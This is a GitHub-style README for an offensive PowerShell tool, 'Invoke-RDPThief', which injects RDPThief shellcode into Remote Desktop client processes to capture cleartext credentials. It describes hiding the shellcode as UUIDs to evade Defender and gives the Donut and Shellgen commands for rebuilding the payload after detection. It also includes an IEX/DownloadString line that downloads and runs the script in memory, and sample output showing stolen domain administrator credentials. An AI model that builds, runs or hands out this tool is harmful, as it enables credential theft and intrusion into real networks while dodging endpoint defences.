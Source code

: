 # Invoke-RDPThief

This PowerShell script runs on a loop hunting for mstsc.exe processes. When any are found, the script will perform process injection on the target process and inject RDPthief into the process in order to capture cleartext credentials.

RDPThief.dll was converted to shellcode with Donut, then converted to UUIDs with Shellgen to hide the shellcode in plainsight within the script. The UUIDs are then converted back into shellcode at runtime and injected whilst staying completley in memory.

Works against Defender as of 01/10/2024

## Payload creation
The payload in the script is ready to go however, the steps below can be followed if the payload is signatured in the future.

Convert RDPThief.dll into shellcode with Donut.
```
.\donut.exe -f:1 --input:C:\RdpThief.dll -e 3 -b 1 -x 3 -k 2
```

Convert to UUID with Shellgen
```powershell
Shellgen -RawFile "C:\loader.bin" -OutputFormat UUID
```
Take the output and place it into the $UUIDs array in Invoke-RDPThief.ps1

RDPThief: https://github.com/0x09AL/RdpThief

Donut: https://github.com/TheWover/donut

Shellgen: https://github.com/Leo4j/ShellGen

# Usage
```powershell
# Load into memory and execute
IEX(New-Object System.Net.WebClient).DownloadString("")

```
## Output
```
[*] Hunting for mstsc...

[+] Successfully injected into process 5496

[+] Extracted Credentials

Server   : DC01.Security.local
Username : SECURITY\administrator
Password : Password123
```

